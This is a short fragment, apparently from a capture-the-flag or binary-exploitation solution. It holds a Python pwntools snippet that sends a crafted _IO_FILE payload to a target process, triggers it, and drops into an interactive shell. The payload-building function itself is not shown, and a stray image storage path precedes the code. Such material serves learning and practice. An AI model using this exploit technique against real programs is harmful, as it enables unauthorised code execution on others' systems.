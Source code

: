 ```python

# pwn
payload = config_exploit_IO(libc_base, heap_base)
ph.recvuntil("Enter command:")
ph.sendline(payload)
# print *(_IO_FILE*)&_IO_2_1_stdin_ 
# trigger!
# ph.interactive()
ph.recvuntil("Enter command:")
ph.sendline(b"T")

ph.interactive()
```